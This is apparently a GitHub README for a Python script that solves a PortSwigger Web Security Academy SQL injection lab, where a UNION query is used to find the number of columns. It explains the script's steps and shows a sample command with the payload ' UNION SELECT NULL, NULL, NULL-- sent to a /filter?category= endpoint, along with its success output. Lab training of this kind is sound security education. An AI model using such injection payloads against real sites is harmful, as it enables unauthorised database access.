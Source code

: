 # 🔐 SQL Injection vulnerability using UNION to identify column count

This script is designed to test for basic SQL injection vulnerabilities in labs from PortSwigger's Web Security Academy Lab: [SQL injection vulnerability using UNION to identify count of columns returned by query](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-determining-the-number-of-columns-required/sql-injection/union-attacks/lab-determine-number-of-columns). It targets endpoints like `/filter?category=` and checks whether a given payload successfully bypasses input validation.

---

## 🚀 How It Works

The script performs the following steps:

1. **Disables SSL warnings** to avoid certificate issues with lab URLs.
2. **Sets up a proxy** (default: `127.0.0.1:8080`) for interception via tools like Burp Suite.
3. **Accepts two arguments**:
   - `url`: The base URL of the lab.
   - `payload`: The SQL injection payload to test.
4. **Constructs the full request URL** by appending the payload to `/filter?category=`.
5. **Sends the request** and checks the response for a known keyword (e.g., `"Congratulations, you solved the lab!"`).
6. **Prints the result** indicating whether the injection was successful.

---

## 🧪 Sample Usage

```bash
python3 unionColumnCount.py https://0a82001304b6eb4f81be4d4b003300ed.web-security-academy.net "' UNION SELECT NULL, NULL, NULL--"
```

### ✅ Sample Output

```
(+) Targeting: https://0a82001304b6eb4f81be4d4b003300ed.web-security-academy.net
(+) Endpoint: /filter?category=
(+) Testing payload: ' UNION SELECT NULL, NULL, NULL--
(+) Encoded payload: %27+UNION+SELECT+NULL%2C+NULL%2C+NULL--
(+) Full request URL: https://0a82001304b6eb4f81be4d4b003300ed.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL%2C+NULL%2C+NULL--


[+] SQL injection successful!
```

---

## 📌 Lab-Specific Note

For this particular lab, the script checks whether the response contains the word `"Congratulations, you solved the lab!"` to determine success. You can modify this keyword in the code to match other labs or contexts.

---

## 📦 Requirements

Install dependencies using:

```bash
pip install -r requirements.txt
```

---

## 📦 Walkthrough of the code
[Code Walkthrough](https://medium.com/@adhithyasivanesh/portswigger-web-security-academy-labs-sqli-lab-1-retrieving-hidden-data-fe40ea356d5d)

